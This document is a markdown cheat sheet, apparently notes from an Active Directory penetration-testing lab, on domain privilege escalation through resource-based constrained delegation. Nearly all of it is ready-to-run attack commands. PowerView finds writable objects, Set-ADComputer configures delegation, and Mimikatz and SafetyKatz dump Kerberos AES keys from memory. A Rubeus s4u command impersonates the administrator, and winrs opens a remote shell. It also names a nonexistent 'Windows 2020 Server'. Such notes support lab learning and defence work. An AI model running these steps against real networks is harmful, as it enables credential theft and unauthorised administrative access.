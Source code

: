 # Domain Privilege Escalation [ RBCD ]
## Methodology/Steps

> 1. Enumerate the users and identify if you have write perms on any object
> 2. Create a list of all the systems where you have write perms
> 3. Store that in $comps variable
> 4. Set RBCD on all of these systems
> 5. Now we can dump the AES keys for the student system ( Remember: Copy the AES key for the system account and not the Virtual Account, you can identify it by the SID. The SID of the system account will be shorter)
> 6. Using Rubeus we can generate a HTTP s4u and get a connection using winrs. If you want to extract more secrets from that system you need to generate a CIFS s4u to transfer files on the system.

---

## PowerShell
### 1. Enumerate if we have Write permissions over any object
```powershell
# PowerView
Find-InterestingDomainAcl | ?{$_.identityreferencename -match 'mgmtadmin'}
```

### 2. Configure RBCD on us-helpdesk for student machines
```powershell
# AD Module
$comps = 'student1$','student2$'
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount $comps
```

### 3. We we can dump the AES Keys of the Students
```powershell
# Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

# SafetyKatz Binary
SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"

# SafetyKatz Old (For Windows 2020 Server)
SafetyKatz_old.exe -Command "sekurlsa::ekeys" "exit"
```

---

## Binaries
### 4. Rubeus
> Use the AES key of studentx$ with Rubeus and access us-helpdesk as ANY user we want
```powershell
Rubeus.exe s4u /user:student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt
```

### 5. Winrs
> Now we can connect to the session
```powershell
winrs -r:us-helpdesk cmd.exe
```
